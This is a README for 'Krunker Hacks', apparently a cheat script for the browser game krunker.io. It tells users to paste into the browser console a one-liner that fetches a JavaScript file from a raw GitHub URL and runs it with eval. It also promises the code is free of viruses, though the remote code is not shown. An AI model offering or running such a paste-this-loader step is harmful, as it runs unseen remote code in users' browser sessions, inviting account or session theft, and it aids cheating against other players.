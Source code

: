 # Krunker Hacks
These hacks allow you to get various stuff. I hope you enjoy! Currently a WIP. This is 100% free, without viruses, without any downloading, and can work instantly.


## Make sure you use NASA theme and have UI scale to 0.1
You can now use the hacks!

*if you need help using the hack, DM me on discord at yama#5154*



## How to Hack

1. Go to [krunker.io](https://krunker.io/)
2. Open the JavaScript console using the `F12` key.
3. Paste the code below into the console:

```js
(async () => {
	eval(await (await fetch("https://raw.githubusercontent.com/gemvido/Krunker-Hacks/main/KrunkerGUI.js")).text())
})()
```